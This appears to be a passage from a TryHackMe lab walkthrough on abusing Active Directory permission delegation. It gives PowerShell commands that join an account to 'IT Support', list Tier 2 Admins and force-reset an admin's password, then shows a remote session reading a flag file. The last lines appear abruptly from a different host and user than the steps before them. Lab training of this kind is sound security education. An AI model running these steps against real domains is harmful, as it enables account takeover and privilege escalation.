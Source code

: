 The first step in this attack path is to add our AD account to the _IT Support_ group. We will use the **Add-ADGroupMember** PowerShell cmdlet from the AD-RSAT toolset for this. Start PowerShell (either in RDP or via SSH) on the THMJMP1 host and run the following command to add your account:

```shell-session
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
```

We can verify that the command worked by using the **Get-ADGroupMember** cmdlet:

```shell-session
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name : hugh.jones
objectClass : user
objectGUID : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName : hugh.jones
SID : S-1-5-21-3885271727-2693558621-2658995185-1113
```

If everything worked, you should see your account as a member. 

## ForceChangePassword 

Now that we are a member of the _IT Support_ group, we have inherited the ForceChangePassword Permission Delegation over the _Tier 2 Admins_ group. First, we need to identify the members of this group to select a target. We can use the **Get-ADGroupMember** cmdlet again to assist with this:

```shell-session
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name : t2_lawrence.lewis
objectClass : user
objectGUID : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName : t2_lawrence.lewis
SID : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name : t2_leon.francis
objectClass : user
objectGUID : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName : t2_leon.francis
SID : S-1-5-21-3885271727-2693558621-2658995185-3660
```

Make a note of the username of one of these accounts. **Since the network is shared, it might be best to select one further down in the list.** We will use the **Set-ADAccountPassword** AD-RSAT cmdlet to force change the password:

```shell-session
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt